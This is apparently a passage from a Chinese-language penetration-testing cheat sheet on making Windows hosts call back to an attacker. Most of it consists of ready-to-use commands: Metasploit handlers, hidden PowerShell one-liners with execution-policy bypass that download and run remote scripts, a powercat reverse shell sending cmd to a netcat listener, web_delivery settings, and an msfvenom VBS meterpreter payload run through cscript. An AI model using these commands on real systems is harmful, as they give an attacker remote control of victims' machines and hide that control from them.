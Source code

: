 MSF 监听。

```bash
handler -p windows/x64/meterpreter/reverse_tcp -H <Host> -P <Port>
```

执行上线。

```bash
powershell -w hidden -exec bypass -c "IEX(New-Object Net.WebClient).DownloadString('http://<Host>/attack.ps1');attack.ps1"
```

2.[powercat](https://github.com/besimorhino/powercat) 上线。

此工具实现了 Netcat 功能。

\-c 反连服务器地址，-p 反连服务器端口，-e 反弹 cmd。

```bash
powershell -w hidden -c "IEX(New-Object Net.WebClient).DownloadString('http://<Host>/powercat.ps1');powercat -c <Host> -p <Port> -e cmd"
```

服务端只需等待 Shell 反弹回来即可。

```bash
nc -lvp <Port>
```

3.msf web\_delivery 上线。

target 2 PSH 是 PowerShell 简写，用于生成 PowerShell 脚本。

```bash
use exploit/multi/script/web_delivery
set target 2
set payload windows/x64/meterpreter/reverse_tcp
exploit -j
```

执行 msf 提供的脚本即可。

4.PowerShell 运行 cscript 程序去执行 vbs 脚本上线

生成 vbs 脚本。

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<Host> lport=<Port> -f vbs -o attack.vbs
```

MSF 监听。

```bash
msf6> handler -p windows/x64/meterpreter/reverse_tcp -H <Host> -P <Port>
```

下载脚本到 $env:temp，sccript 执行 attack.vbs 上线。

```powershell
powershell -w hidden -c "IEX(New-Object Net.WebClient).DownloadString('http://<Host>/attack.vbs',\"$env:temp\attack.vbs\");Start-Process %windir%\system32\cscript.exe \"$env:temp\attack.vbs\""
```

